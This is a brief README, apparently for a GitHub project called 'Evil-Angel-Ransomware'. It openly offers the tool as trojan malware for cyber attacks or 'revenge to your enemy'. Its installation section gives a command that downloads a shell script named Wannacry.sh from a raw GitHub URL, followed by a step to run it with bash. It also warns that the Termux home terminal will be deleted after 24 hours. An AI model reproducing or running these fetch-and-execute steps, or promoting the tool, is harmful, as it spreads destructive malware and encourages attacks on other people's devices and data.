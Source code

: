 # Evil-Angel-Ransomware
Evil Angel is A Trojan Malware You Can Use Evil Angel For Cyber Attacks or Revenge To Your Enemy

# Installation

wget https://raw.githubusercontent.com/HAXOR-BD1/Evil-Angel-Ransomware/main/Wannacry.sh

Then Run "bash Wannacry.sh"

# WARNING ⚠️

TERMUX HOME TERMINAL ARE GOING TO BE DELETED AFTER 24 HOURS
